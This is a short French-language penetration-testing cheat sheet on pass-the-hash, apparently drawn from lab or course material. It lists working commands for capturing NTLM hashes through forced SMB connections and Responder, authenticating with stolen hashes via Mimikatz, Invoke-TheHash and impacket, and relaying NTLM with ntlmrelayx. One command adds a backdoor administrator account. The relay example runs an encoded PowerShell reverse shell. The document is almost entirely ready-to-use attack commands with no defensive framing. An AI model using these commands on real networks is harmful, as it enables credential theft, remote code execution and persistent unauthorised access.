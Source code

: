 Pass the hash
# Obtention
## Par connexion
Il faut essayer de créer une connection pour révéler le hash.
1. On se crée un serveur SMB qui recevra une connection
2. on essai de créer une connection
* Si on peut exécuter du code  
```ls \\192.168.119.2\share```
* Sur un formulaire web avec chemin UNC 
``` \\192.168.119.2\share\nonexistent.txt```
3. Utiliser Responder pour capturer un hash 
```sudo responder -I tun0```

# Windows
## Mimikatz
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
## Invoke-TheHash
```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

```



# Shell interfactif
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#Utilisateur Système
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
#Utilisateur choisi
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Relay
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#la commande est un reverse shell
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

